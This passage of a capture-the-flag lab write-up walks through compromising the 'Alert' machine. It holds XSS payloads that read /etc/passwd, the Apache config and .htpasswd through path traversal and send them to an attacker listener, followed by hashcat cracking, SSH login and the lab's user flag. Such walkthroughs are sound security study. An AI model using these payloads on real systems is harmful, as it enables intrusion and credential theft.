At the bottom-right corner of the page, we notice an option to share the markdown file.


 After clicking it, we obtain the following URL:

http://alert.htb/visualizer.php?link_share=695e4e65ce1726.36734735.md

Since a contact form is available, we can send this URL to the administrator. We then modify the `pwn.js` payload to attempt to retrieve the contents of the `messages.php` page.



The payload above sends a GET request to the `messages.php` page and retrieves its contents. It then encodes the response using Base64 and sends the encoded data to our server through another GET request. Once received, we can decode the data and view the contents of the page.

Finally, we start a Python HTTP server to listen for incoming requests generated by the payload.
```bash
$ python3 -m http.server 4444
```


Now we send the obtained link, but with the `pwn.js` file, and we go to the Python server that we have listening.



In our server we recieved 



We proceed to decode the Base64 data.



By examining the `file` parameter, we identify the filename and test whether it is vulnerable to an Arbitrary File Read by modifying the GET request to attempt access to the `/etc/passwd` file.
```bash
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../../../../etc/passwd', false);
req.send();


var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.14.15:4444/?b64=' + btoa(req.responseText), false);
exfil.send();
```


After submitting the updated payload, generating a new shareable Markdown link, and forwarding it to the administrator, we inspect the Python web server and observe data encoded in base64.



We recieved in our listener this;



We proceed to decode the Base64 data, which reveals the contents of the /etc/passwd file.





From earlier enumeration, we identified `statistics.alert.htb`, which requires authentication. We can now attempt to read the Apache virtual host configuration file located at `/etc/apache2/sites-available/000-default.conf` to understand how the sites are hosted and to review the related configuration files.
```bash
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../../../../etc/apache2/sites-available/000-default.conf', false);
req.send();


var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.14.15:4444/?b64=' + btoa(req.responseText), false);
exfil.send();
```


Looking back at the output, we get the following base64-encoded data.



We can proceed to decode and read the content of the file.
```bash
<pre><VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

</pre>
```
This shows that `/var/www/statistics.alert.htb/.htpasswd` is used to store hashed passwords for HTTP authentication on Apache web servers. We can then move on to retrieve its contents.





We can proceed to decode and read the content of the file.



This reveals that the hash used is Apache `$apr1$` (MD5), which we crack using Hashcat. With the hash we create a file.


Now using Hashcat tool we can try to get the credentials
```bash
$ hashcat -a 0 -m 1600 hash_file /usr/share/wordlists/rockyou.txt --user
```
--user → because our hash have a user.



Now we got the full credentials 
```bash
albert:manchesterunited
```
Using these credentials, we can access the statistics suddomain and we come across a dashboard.





This credentials works perfectly, so we can try to acces via SSH becasuse our Nmap scan said that SSH is open
```bash
$ ssh albert@10.10.11.44
```


This credentials are valid to SSH conection too. So we can try to find the user flag.



```bash
User Flag → bcb6b966210051e63766500fc0934888
```


[Back](README.md)